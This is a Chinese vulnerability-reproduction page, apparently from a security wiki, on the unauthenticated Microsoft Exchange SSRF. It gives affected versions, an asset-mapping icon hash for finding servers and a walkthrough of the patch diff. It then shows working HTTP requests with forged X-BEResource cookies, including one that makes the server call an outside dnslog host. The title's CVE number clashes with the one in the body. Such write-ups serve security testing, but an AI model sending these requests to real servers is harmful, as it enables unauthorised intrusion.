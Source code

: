 # Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

<a-checkbox checked>Exchange 2013 Versions < 15.00.1497.012,</a-checkbox></br>

<a-checkbox checked>Exchange 2016 CU18 < 15.01.2106.013,</a-checkbox></br>

<a-checkbox checked>Exchange 2016 CU19 < 15.01.2176.009,</a-checkbox></br>

<a-checkbox checked>Exchange 2019 CU7 < 15.02.0721.013,</a-checkbox></br>

<a-checkbox checked>Exchange 2019 CU8 < 15.02.0792.010</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

与 SSRF 有关的文件

```plain
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 `BackEndServer` 使用的类关于 `BEResourceRequestHandler` 的改变

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746644.png)



修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746353.png)



查看调用`BERsourceRequestHandler` 的方法 `SelectHandlerForUnauthenticatedRequest` 查找相关路径 `ProxyMoudle`

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746419.png)



可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 `X-BEResponse`, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为`/etc/y.js` 这样类似不存在的文件

参数 `X-BEResource` 解析在 `BackEndServer.FromString`

跟踪 `BackEndServer`对象， 其中该对象使用 `ProxyRequestHandler` 向主机发送请求

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746711.png)

这里进行SSRF的漏洞复现，首先访问 `/ecp/test11.js` 文件

并设置Cookie `X-BEResource=test_wiki/api/endpoint#~1; X-AnonResource=true`

```plain
GET /ecp/test11.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=test_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

```plain
响应包为:
NegotiateSecurityContext failed with for host 'test_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```plain
GET /owa/auth/test.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```



<a-alert type="success" message="Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;" description="" showIcon>
</a-alert>
<br/>

<a-alert type="success" message="将其中的 Dnslog换成自己的" description="" showIcon>
</a-alert>
<br/>



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746597.png)



确定收到了由服务端发送的请求，存在SSRF漏洞